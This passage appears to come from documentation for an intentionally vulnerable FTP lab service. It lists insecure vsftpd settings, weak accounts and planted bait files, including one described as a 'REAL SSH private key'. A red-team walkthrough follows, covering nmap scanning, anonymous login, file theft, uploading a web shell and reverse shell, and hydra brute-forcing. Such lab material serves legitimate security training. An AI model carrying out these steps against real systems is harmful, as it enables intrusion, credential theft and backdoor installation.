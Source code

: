 Impact: Sensitive data exposure and unauthorized modifications

### 3. Security Bypass Vulnerabilities
```conf
chroot_local_user=NO
allow_writeable_chroot=YES
ssl_enable=NO
```
Risk: No user confinement, cleartext authentication

Impact: Directory traversal and credential sniffing

### 4. Information Disclosure
```conf
ftpd_banner=Welcome to Troy (FTP v2.3.4)
```
Risk: Version and system information exposure

Impact: Reconnaissance and targeted attacks

### 5. Weak User Accounts

Pre-configured users with weak passwords

Default credentials and predictable patterns

### 6. Fake Sensitive Data

The service contains intentionally planted fake sensitive data:

    secret-plans.txt - Confidential operational plans

    user-creds.csv - User credentials (fake)

    network-diagram.pdf - Fake network infrastructure

    .ssh-key-ovid - REAL SSH private key

## Red Team
### Phase 1: Recon
```bash
# Service discovery
nmap -p 21 10.1.0.0/24
# Banner grabbing
telnet 10.1.0.X 21
# Anonymous access testing
ftp 10.1.0.X
# Username: anonymous
# Password: (any)
```
### Phase 2: Initial Access
```bash
# Anonymous file listing
ftp> ls -la
# Download sensitive files
ftp> get secret-plans.txt
ftp> get user-creds.csv
# Upload backdoors
ftp> put shell.php
ftp> put reverse-shell.sh
```
### Phase 3: Privilege Escalation
```bash
# Brute force weak users
hydra -L users.txt -P passwords.txt ftp://10.1.0.X
# Exploit directory traversal (if available)
```